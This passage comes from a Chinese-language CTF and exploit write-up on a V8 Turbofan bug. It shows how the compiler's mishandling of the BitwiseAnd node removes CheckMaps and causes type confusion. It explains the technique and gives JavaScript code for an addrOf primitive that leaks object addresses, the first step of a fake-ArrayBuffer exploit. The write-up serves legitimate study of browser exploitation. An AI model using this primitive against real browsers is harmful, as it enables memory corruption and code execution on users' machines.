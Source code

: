 ### <a class="reference-link" name="%E5%B0%8F%E7%BB%93"></a>小结

本节以patch文件为切入点，从源码的角度分析了漏洞存在的地方，结合`数字经济线下赛`的解题思路找到了触发漏洞的方式，然后以此探寻了回调函数最终被调用的根源，最终找到了三种定义回调函数的方法：
- Symbol.toPrimitive属性
- valueOf属性
- toString属性


## 漏洞利用 – Fake ArrayBuffer

该利用方法是从`Sakura`师傅写的[34c3 v9 writeup](http://eternalsakura13.com/2019/04/29/v9/)中学到的。最初我构造出addrOf和fakeObj之后被卡了很久，主要就是拿不到一个合法的map，从师傅的文章里面了解到伪造`ArrayBuffer map`并进一步伪造出`ArrayBuffer`是可行的。

### <a class="reference-link" name="addrOf%E5%8E%9F%E8%AF%AD"></a>addrOf原语

利用Turbofan对`BitwiseAnd`节点影响的误判，我们可以消除掉对象属性访问的`CheckMaps`节点，进而造成类型混淆。例如定义`let c = `{`x:1.2,y:1.3`}`;`，在两次属性访问`c.x`和`c.y`之间插入`a&amp;b`操作，c.y的`ChekMaps`节点仍会被消除，如果在回调函数中把`c.y`赋值为一个对象，那么`return c.y;`仍然会按照之前的类型`double`来返回数据，实现对象的地址信息泄露。由于正常写addrOf原语每调用一次之后就得重新写一个新的addrOf函数，因此我在`addrOf`中加入了部分动态生成的代码片段，如下所示：

```
function getObj(idx)`{`
        let c = 2.2;
        eval(`c = `{`x:1.2,$`{`'y'+idx`}`:2.2`}`;`);
        return c;
    `}`
    function addrOf(obj,cid)`{`
        eval(`
            function vulfunc4leak(a,b,c)`{`
                let d = 1.2;
                d = c.x+d;
                a&amp;b;
                return c.$`{`'y'+cid`}`;
            `}`
            `);
        let b0 = `{`
            valueOf: function()`{`
                return 22223333;
            `}`
        `}`
        let b = `{`
            valueOf: function()`{`
                eval(`c.$`{`'y'+cid`}` = obj;`);
                return 888888889999;
            `}`
        `}`
        var c = getObj(cid);
        for(let i=0;i&lt;OPT_NUM;++i)`{`
            vulfunc4leak(12345,b0,c);
        `}`
        let ret = vulfunc4leak(12345,b,c);
        return ret;
    `}`
```
